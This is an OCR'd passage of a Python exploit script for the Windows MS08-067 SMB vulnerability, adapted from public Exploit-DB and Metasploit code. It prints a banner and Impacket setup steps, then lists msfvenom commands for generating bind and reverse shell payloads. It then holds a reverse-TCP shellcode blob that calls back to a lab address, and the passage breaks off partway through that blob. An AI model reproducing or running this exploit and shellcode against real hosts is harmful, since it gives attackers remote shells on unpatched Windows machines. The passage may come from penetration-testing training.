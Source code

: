 ```python
    print('PyCrypto : https://pypi.python.org/pypi/pycrypto')
    sys.exit(1)

print ('#######################################################################')
print ('#   MS08-067 Exploit')
print ('#   This is a modified verion of Debasis Mohanty\'s code (https://www.exploit-db.com/exploits/7132/).')
print ('#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi')
print ('#')
print ('#   Mod in 2018 by Andy Acer')
print ('#   - Added support for selecting a target port at the command line.')
print ('#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport')
print ('#   - Changed shellcode handling to allow for variable length shellcode.')
print ('#######################################################################\n')

print ('''
$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .

''')

print('#######################################################################\n')


# ------------------------------------------------------------------------
# REPLACE THIS SHELLCODE with shellcode generated for your use
# Note that length checking logic follows this section, so there's no need to count bytes or bother with NOPS.
#
# Example msfvenom commands to generate shellcode:
# msfvenom -p windows/shell_bind_tcp RHOST=10.11.1.229 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Reverse TCP to 192.168.119.204 port 62000:
shellcode=(
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xae\xc3\xb5\x92\x83\xee\xfc\xe2\xf4\x52\x2b\x37\x92\xae\xc3"
"\xd5\x1b\x4b\xf2\x75\xf6\x25\x93\x85\x19\xfc\xcf\x3e\xc0\xba"
"\x48\xc7\xba\xa1\x74\xff\xb4\x9f\x3c\x19\xae\xcf\xbf\xb7\xbe"
"\x8e\x02\x7a\x9f\xaf\x04\x57\x60\xfc\x94\x3e\xc0\xbe\x48\xff"
"\xae\x25\x8f\xa4\xea\x4d\x8b\xb4\x43\xff\x48\xec\xb2\xaf\x10"
"\x3e\xdb\xb6\x20\x8f\xdb\x25\xf7\x3e\x93\x78\xf2\x4a\x3e\x6f"
"\x0c\xb8\x93\x69\xfb\x55\xe7\x58\xc0\xc8\x6a\x95\xbe\x91\xe7"
"\x4a\x9b\x3e\xca\x8a\xc2\x66\xf4\x25\xcf\xfe\x19\xf6\xdf\xb4"
"\x41\x25\xc7\x3e\x93\x7e\x4a\xf1\xb6\x8a\x98\xee\xf3\xf7\x99"
"\xe4\x6d\x4e\x9c\xea\xc8\x25\xd1\x5e\x1f\xf3\xab\x86\xa0\xae"
"\xc3\xdd\xe5\xdd\xf1\xea\xc6\xc6\x8f\xc2\xb4\xa9\x3c\x60\x2a"
"\x3e\xc2\xb5\x92\x87\x07\xe1\xc2\xc6\xea\x35\xf9\xae\x3c\x60"
"\xc2\xfe\x93\xe5\xd2\xfe\x83\xe5\xfa\x44\xcc\x6a\x72\x51\x16"
"\x22\xf8\xab\xab\x75\x3a\xd9\x0f\xdd\x90\xae\x31\x85\x1b\x48"
"\xa9\xa5\xc4\xf9\xab\x2c\x37\xda\xa2\x4a\x47\x2b\x03\xc1\x9e"
"\x51\x8d\xbd\xe7\x42\xab\x45\x27\x0c\x95\x4a\x47\xc6\xa0\xd8"
"\xf6\xae\x4a\x56\xc5\xf9\x94\x84\x64\xc4\xd1\xec\xc4\x4c\x3e"
```
